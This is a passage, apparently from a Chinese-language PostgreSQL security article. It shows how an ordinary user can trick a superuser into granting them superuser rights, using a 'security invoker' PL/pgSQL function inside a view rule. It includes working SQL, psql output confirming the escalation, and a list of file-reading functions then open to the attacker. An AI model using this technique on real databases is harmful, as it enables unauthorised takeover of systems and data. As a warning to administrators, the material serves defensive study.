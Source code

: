 普通用户可以利用这种方法，获得超级用户的权限，然后为所欲为，包括读写文件系统，创建非受信的函数语言等等，破坏力极大。  
  
例如修改一下上面这个例子的视图的规则用到的函数。  
  
```  
create or replace function f() returns void as $$  
declare  
begin  
  alter role digoal superuser;  
end;  
$$ language plpgsql security invoker;  
```  
  
然后，超级用户如果读到这个视图，则digoal将被赋予为超级用户。  
  
```  
postgres=> \c postgres postgres  
postgres=# select * from tmp;  
 id   
----  
  1  
(1 row)  
postgres=# \du  
                       List of roles  
 Role name |            Attributes             | Member of   
-----------+-----------------------------------+-----------  
 digoal    | Superuser, Create DB              | {}  
```  
  
现在digoal是超级用户了，你想干点什么呢？  
  
一切。。。。。。  
  
对文件系统有杀伤力的函数：  
  
```  
postgres=# \df *.*file  
                                                                                                                              List of functions  
   Schema   |        Name         | Result data type |                                                                                              Argument data types                                                                        
                        |  Type    
------------+---------------------+------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------  
------------------------+--------  
 pg_catalog | pg_read_binary_file | bytea            | text                                                                                                                                                                                    
                        | normal  
 pg_catalog | pg_read_binary_file | bytea            | text, bigint, bigint                                                                                                                                                                    
                        | normal  
 pg_catalog | pg_read_file        | text             | text                                                                                                                                                                                    
                        | normal  
 pg_catalog | pg_read_file        | text             | text, bigint, bigint                                                                                                                                                                    
                        | normal  
 pg_catalog | pg_rotate_logfile   | boolean          |                                                                                                                                                                                         
                        | normal  
```